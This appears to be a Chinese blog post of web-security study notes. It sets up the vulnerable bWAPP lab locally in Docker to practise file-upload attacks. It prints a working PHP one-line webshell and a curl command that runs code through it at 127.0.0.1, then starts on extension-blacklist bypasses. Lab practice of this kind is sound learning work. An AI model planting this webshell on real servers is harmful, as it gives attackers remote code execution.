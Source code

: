 ```yaml
---
title: "web安全学习笔记"
categories: [ "学习" ]
tags: [ "web安全" ]
draft: false
slug: "145"
date: "2022-04-13 13:50:00"
---
```


常见web工具：

burpsuite：通过代理渗透，可重放HTTP请求，来分析HTTP响应

curl：通过url方式传输数据，可用于抓取页面（执行请求），监控网络等等

postmain

hackbar quantum

wappalyzer


文件上传漏洞：没有足够的安全约束的情况下，允许上传恶意文件，例如恶意脚本，webshell等等

文件上传漏洞关键点在于绕过

由于法律限制的原因，禁止对其他网站非法攻击，因此需要在本地或者在自己的服务器上建立靶场渗透环境，这边使用的是bwapp（全称为buggy web Application）

这边使用的是docker运行bwapp，也可以下载bwapp，来自己搭建（https://sourceforge.net/projects/bwapp/files/）


docker pull raesene/bwapp

docker run -d -p 0.0.0.0:80:80 raesene/bwapp


访问127.0.0.1/install.php


点击here来初始化，或者直接访问127.0.0.1/install.php?install=yes

创建账号信息，点击new user，或者直接访问127.0.0.1/user_new.php

点击login，或者直接访问127.0.0.1/login.php，根据刚才的账号信息进行登录

简单接触文件上传漏洞

chose your bug选择unrestricted File Upload（未经严格审记的文件上传），安全级别选择low（set your security level）

上传一句话木马，创建shell.php文件，添加<?php @eval($_POST["test"])?>

通过curl触发，执行curl -d 'test=echo getcwd();'  http://127.0.0.1/images/shell.php

可以看到成功触发shell.php，并且服务器返回了当前执行的目录


后缀名绕过

安全级别选择medium（set your security level）

常见后缀名验证方式有，黑名单（禁止哪些后缀上传），白名单（只允许哪些后缀上传）
